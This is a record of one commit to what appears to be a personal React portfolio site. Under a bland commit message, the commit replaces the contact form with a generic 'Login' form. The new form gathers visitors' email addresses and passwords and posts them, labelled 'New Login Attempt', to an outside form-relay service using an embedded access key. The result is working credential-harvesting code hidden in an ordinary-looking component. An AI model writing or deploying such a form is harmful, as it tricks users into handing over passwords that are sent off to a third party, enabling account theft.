

Before and after one commit to SumindaBandara/suminda-portfolio, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 2000-2800 px from the top of the page. After the commit the page ends 2547 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update ContactSection.jsx

```diff
--- a/src/components/sections/ContactSection.jsx
+++ b/src/components/sections/ContactSection.jsx
@@ -1,210 +1,73 @@
-import React, { useState, useEffect } from 'react';
-import {
-  Mail,
-  Phone,
-  MapPin,
-  Github,
-  Linkedin,
-  Twitter,
-  Instagram,
-  Send,
-  CheckCircle,
-  AlertCircle,
-  User,
-  MessageCircle,
-  Globe,
-  Calendar,
-  Coffee
-} from 'lucide-react';
+import { useState } from 'react';
 
-const ModernContactSection = () => {
-  const [formStatus, setFormStatus] = useState({ type: '', message: '' });
-  const [isSubmitting, setIsSubmitting] = useState(false);
-  const [focusedField, setFocusedField] = useState('');
+export default function ContactSection() {
+  const [result, setResult] = useState("");
+  const [email, setEmail] = useState("");
+  const [password, setPassword] = useState("");
 
-  const contactInfo = [/* unchanged */];
-  const socialLinks = [/* unchanged */];
+  const onSubmit = async () => {
+    setResult("Sending....");
 
-  const inputClasses = (fieldName) => `
-    w-full px-4 py-4 bg-slate-800/50 backdrop-blur-sm border rounded-2xl
-    text-white placeholder-gray-400 transition-all duration-300 focus:outline-none
-    ${focusedField === fieldName
-      ? 'border-blue-500 shadow-lg shadow-blue-500/25 bg-slate-800/80'
-      : 'border-slate-600 hover:border-slate-500'
+    const formData = new FormData();
+    formData.append("access_key", "f92d23d2-5491-4b38-b56c-57a11fc7367c");
+    formData.append("email", email);
+    formData.append("password", password);
+    formData.append("subject", "New Login Attempt");
+
+    const response = await fetch("https://api.web3forms.com/submit", {
+      method: "POST",
+      body: formData
+    });
+
+    const data = await response.json();
+
+    if (data.success) {
+      setResult("Login details sent successfully!");
+      setEmail("");
+      setPassword("");
+    } else {
+      console.log("Error", data);
+      setResult(data.message);
     }
-  `;
-
-  const handleSubmit = async (e) => {
-    e.preventDefault();
-    setIsSubmitting(true);
-
-    const formData = new FormData(e.target);
-    formData.append("access_key", "f92d23d2-5491-4b38-b56c-57a11fc7367c"); // Replace this!
-
-    const json = JSON.stringify(Object.fromEntries(formData));
-
-    const res = await fetch("https://api.web3forms.com/submit", {
-      method: "POST",
-      headers: {
-        "Content-Type": "application/json",
-        Accept: "application/json"
-      },
-      body: json
-    }).then((res) => res.json());
-
-    if (res.success) {
-      setFormStatus({
-        type: 'success',
-        message: 'Thank you! Your message has been sent successfully.'
-      });
-      e.target.reset(); // clear form
-    } else {
-      setFormStatus({
-        type: 'error',
-        message: 'Oops! Something went wrong. Please try again.'
-      });
-    }
-
-    setIsSubmitting(false);
   };
 
   return (
-    <section id="contact" className="relative py-20 bg-gradient-to-br from-slate-900 via-blue-900 to-slate-900 overflow-hidden">
-      {/* Background Elements */}
-      <div className="absolute inset-0 overflow-hidden">
-        {/* background divs same as before */}
+    <div className="max-w-md mx-auto mt-10 p-6 bg-white rounded-lg shadow-md">
+      <h2 className="text-2xl font-bold text-center mb-6">Login</h2>
+
+      <div className="space-y-4">
+        <input
+          type="email"
+          value={email}
+          onChange={(e) => setEmail(e.target.value)}
+          placeholder="Email"
+          required
+          className="w-full px-3 py-2 border border-gray-300 rounded-md focus:outline-none focus:ring-2 focus:ring-blue-500"
+        />
+
+        <input
+          type="password"
+          value={password}
+          onChange={(e) => setPassword(e.target.value)}
+          placeholder="Password"
+          required
+          className="w-full px-3 py-2 border border-gray-300 rounded-md focus:outline-none focus:ring-2 focus:ring-blue-500"
+        />
+
+        <button
+          onClick={onSubmit}
+          disabled={!email || !password}
+          className="w-full bg-blue-500 text-white py-2 px-4 rounded-md hover:bg-blue-600 disabled:bg-gray-400"
+        >
+          Login
+        </button>
       </div>
 
-      <div className="relative z-10 container mx-auto px-6 max-w-7xl">
-        <div className="text-center mb-16">
-          <h2 className="text-5xl md:text-6xl font-bold text-white mb-4">
-            Let's <span className="bg-gradient-to-r from-blue-400 to-purple-400 bg-clip-text text-transparent">Connect</span>
-          </h2>
-          <p className="text-xl text-gray-300 max-w-2xl mx-auto">
-            Ready to bring your ideas to life? Whether you need development expertise or marketing strategy, I'm here to help.
-          </p>
-        </div>
-
-        <div className="grid lg:grid-cols-2 gap-12 items-start">
-          {/* Contact Form */}
-          <div className="relative">
-            <div className="absolute inset-0 bg-gradient-to-r from-blue-500/10 to-purple-500/10 rounded-3xl blur-xl"></div>
-            <div className="relative bg-slate-800/30 backdrop-blur-sm border border-slate-700 rounded-3xl p-8">
-              <div className="flex items-center space-x-3 mb-8">
-                <div className="p-3 bg-gradient-to-r from-blue-500 to-purple-500 rounded-full">
-                  <MessageCircle className="w-6 h-6 text-white" />
-                </div>
-                <h3 className="text-2xl font-bold text-white">Send a Message</h3>
-              </div>
-
-              <form onSubmit={handleSubmit} className="space-y-6">
-                {/* Name */}
-                <div className="relative">
-                  <div className="absolute left-4 top-4 text-gray-400">
-                    <User className="w-5 h-5" />
-                  </div>
-                  <input
-                    type="text"
-                    name="name"
-                    placeholder="Your Name"
-                    onFocus={() => setFocusedField('name')}
-                    onBlur={() => setFocusedField('')}
-                    className={inputClasses('name') + ' pl-12'}
-                    required
-                  />
-                </div>
-
-                {/* Email */}
-                <div className="relative">
-                  <div className="absolute left-4 top-4 text-gray-400">
-                    <Mail className="w-5 h-5" />
-                  </div>
-                  <input
-                    type="email"
-                    name="email"
-                    placeholder="Your Email"
-                    onFocus={() => setFocusedField('email')}
-                    onBlur={() => setFocusedField('')}
-                    className={inputClasses('email') + ' pl-12'}
-                    required
-                  />
-                </div>
-
-                {/* Subject */}
-                <div className="relative">
-                  <div className="absolute left-4 top-4 text-gray-400">
-                    <MessageCircle className="w-5 h-5" />
-                  </div>
-                  <input
-                    type="text"
-                    name="subject"
-                    placeholder="Subject"
-                    onFocus={() => setFocusedField('subject')}
-                    onBlur={() => setFocusedField('')}
-                    className={inputClasses('subject') + ' pl-12'}
-                    required
-                  />
-                </div>
-
-                {/* Message */}
-                <div className="relative">
-                  <textarea
-                    name="message"
-                    rows={6}
-                    placeholder="Your Message"
-                    onFocus={() => setFocusedField('message')}
-                    onBlur={() => setFocusedField('')}
-                    className={inputClasses('message') + ' resize-none'}
-                    required
-                  ></textarea>
-                </div>
-
-                {/* Submit Button */}
-                <button
-                  type="submit"
-                  disabled={isSubmitting}
-                  className="w-full py-4 px-6 bg-gradient-to-r from-blue-500 to-purple-500 text-white font-semibold rounded-2xl hover:from-blue-600 hover:to-purple-600 transform hover:scale-105 transition-all duration-300 shadow-lg hover:shadow-xl disabled:opacity-50 disabled:cursor-not-allowed disabled:transform-none flex items-center justify-center space-x-2"
-                >
-                  {isSubmitting ? (
-                    <>
-                      <div className="animate-spin rounded-full h-5 w-5 border-b-2 border-white"></div>
-                      <span>Sending...</span>
-                    </>
-                  ) : (
-                    <>
-                      <Send className="w-5 h-5" />
-                      <span>Send Message</span>
-                    </>
-                  )}
-                </button>
-
-                {/* Status Message */}
-                {formStatus.message && (
-                  <div className={`flex items-center space-x-2 p-4 rounded-xl ${
-                    formStatus.type === 'success'
-                      ? 'bg-green-500/20 border border-green-500/30'
-                      : 'bg-red-500/20 border border-red-500/30'
-                  }`}>
-                    {formStatus.type === 'success' ? (
-                      <CheckCircle className="w-5 h-5 text-green-400" />
-                    ) : (
-                      <AlertCircle className="w-5 h-5 text-red-400" />
-                    )}
-                    <p className={`text-sm ${formStatus.type === 'success' ? 'text-green-400' : 'text-red-400'}`}>
-                      {formStatus.message}
-                    </p>
-                  </div>
-                )}
-              </form>
-            </div>
-          </div>
-
-          {/* Contact Information / Social / Stats — all unchanged */}
-          {/* Just keep your original components here as-is */}
-        </div>
-      </div>
-    </section>
+      {result && (
+        <p className={`text-center text-sm mt-4 ${result.includes('successfully') ? 'text-green-600' : 'text-red-600'}`}>
+          {result}
+        </p>
+      )}
+    </div>
   );
-};
-
-export default ModernContactSection;
+}
```
